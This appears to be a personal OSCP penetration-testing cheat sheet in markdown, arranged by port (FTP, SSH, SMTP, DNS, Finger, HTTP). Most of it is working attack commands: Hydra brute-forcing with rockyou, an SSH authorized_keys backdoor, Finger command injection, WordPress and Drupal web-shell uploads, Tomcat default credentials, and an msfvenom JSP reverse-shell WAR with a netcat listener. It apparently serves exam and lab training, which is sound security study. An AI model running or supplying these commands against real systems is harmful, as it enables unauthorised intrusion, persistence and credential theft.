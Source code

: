 # Welcome to Zamrax's Cheat Sheet for OSCP

## Enumeration:

1. nmapAutomator:
`nmapAutomator.sh -H IP -t All`
2. autorecon:
`autorecon IP`
3. nmap:
`nmap -T4 -A -p- IP`

## Port Enumeration:

### 21 (FTP):
1. Anonymous login is possible:
`ftp IP`
`ftp> USER anonymous`
`ftp> PASS `
2. View of FTP content:
`ftp://IP`
3. Get files from FTP:
`PASSIVE`
`BINARY`
`get FILE`
4. Upload files to FTP:
`PASSIVE`
`BINARY`
`put FILE`
5. Brute force:
`hydra -V -f -L USER_LIST -P /usr/share/wordlists/rockyou.txt ftp://IP -u -vV`
6. Vulnerability Scanning:
`nmap -p 21 --script="+*ftp* and not brute and not dos and not fuzzer" -vv -oN ftp IP`

### 22 (SSH)
1. Brute Force:
`hydra -V -f -L <USERS_LIST> -P /usr/share/wordlists/rockyou.txt ssh://IP -u -vV`
2. Possible Exploit: CVE-2008-0166:
`searchsploit -m 5720`
3. Backdoor (might be worth it):
`
-> Attacker
ssh-keygen -f FILE
chmod 600 FILE
cat FILE.pub -> copy

-> Victim
echo FILE.pub >> PATH/.ssh/authorized_keys

-> Connect
ssh -i FILE USER@IP
`
4. Banner grab:
`ssh root@IP`

### 23 (Telnet)
1. Connect:
`telnet IP 23`

### 25 (SMTP)
1. Connect:
`nc IP 25`
2. User enumeration:
`VRFY USER`

### 43 (WHOIS)
1. Connection:
`whois -h IP -p PORT "domain.tld"`

### 53 (DNS)
1. Enumeration:
`dnsenum DOMAIN`
`dnsrecon -d DOMAIN`
`
nslookup
nslookup> server IP
nslookup> DOMAIN
`
2. Zone Transfer
`dnsrecon -d DOMAAIN -a`
`dig axfr DOMAIN @website`
3. DNS Brute force:
`https://github.com/blark/aiodnsbrute`

### 69 (TFTP)
1. Enumeration
`nmap -n -Pn -sU -p69 -sV --script tftp-enum IP`

### 79 (Finger)
1. User Enumeration
`finger IP`
`finger USER@IP`
2. Command execution:
`finger "|/bin/id@<IP>"
finger "|/bin/ls -a /<IP>"`

### 80 & 443 (HTTP):
1. Enumeration:
`done by automatic scripts`
2. Directory Fuzzing:
- GoBuster:
`gobuster dir -u http://IP/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20`
`gobuster dir -u http://IP/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -x php,txt,html,cgi,sh,bak,aspx`
`gobuster dir -u http://IP/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -x php,txt,html,cgi,sh,bak,aspx --insecuressl`
(might have to use `-k` switch if HTTPS is not trustable)
- Dirbuster
`trivial`
(Do not forget to change file formats and supply correct directory list like above)
**Wordpress**
_Enumeration_
`\# Scan
wpscan --rua -e --url IP/URL
\# Brute force users/login
wpscan --rua --url IP/URL -P /usr/share/wordlists/rockyou.txt -U "USER,USER"`
_Theme RCE_
`
Appearance -> Editor -> 404 Template (at the right)
Change the content for a php shell
https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
http://<IP>/wp-content/themes/twentytwelve/404.php
`
_Plugin RCE_
Follow this [Link](https://medium.com/swlh/wordpress-file-manager-plugin-exploit-for-unauthenticated-rce-8053db3512ac)
**Drupal**
`droopescan scan -u IP/URL`
_User Enumeration_
`In /user/register just try to create a username and if the name is already taken it will be notified :
*The name admin is already taken*
If you request a new password for an existing username :
*Unable to send e-mail. Contact the site administrator if the problem persists.*
If you request a new password for a non-existent username :
*Sorry, test is not recognized as a user name or an e-mail address.*
Accessing /user/<number> you can see the number of existing users :
	- /user/1 -> Access denied (user exist)
	- /user/2 -> Page not found (user doesn't exist)`
_Hidden Pages Enumeration_
`wfuzz -c -z range,1-500 --hc 404 URL/node/FUZZ`
_Panel RCE_
`
You need the plugin php to be installed (check it accessing to /modules/php and if it returns a 403 then, exists, if not found, then the plugin php isn't installed)
Go to Modules -> (Check) PHP Filter  -> Save configuration
https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
Then click on Add content -> Select Basic Page or Article -> Write php shellcode on the body -> Select PHP code in Text format -> Select Preview
`
**Joomla**
_Enumeration_
`joomscan -u URL
./joomlavs.rb --url URL -a -v`
**Tomcat**
_Default Credentials_
`
The most interesting path of Tomcat is /manager/html, inside that path you can upload and deploy war files (execute code). But  this path is protected by basic HTTP auth, the most common credentials are :

admin:admin
tomcat:tomcat
admin:<NOTHING>
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
`
_Brute Force_
`hydra -L USER_LIST -P /usr/share/wordlists/rockyou.txt -f IP http-get /manager/html -vV -u`
_Panel RCE_
`
\# Generate payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war

\# Upload payload
Tomcat6 :
wget 'http://USER:PASSWORD@IP:8080/manager/deploy?war=file:shell.war&path=/shell' -O -

Tomcat7 and above :
curl -v -u USER:PASSWORD -T shell.war 'http://IP:8080/manager/text/deploy?path=/shellh&update=true'

\# Listener
nc -nvlp PORT

\# Execute payload
curl http://IP:8080/shell/
`
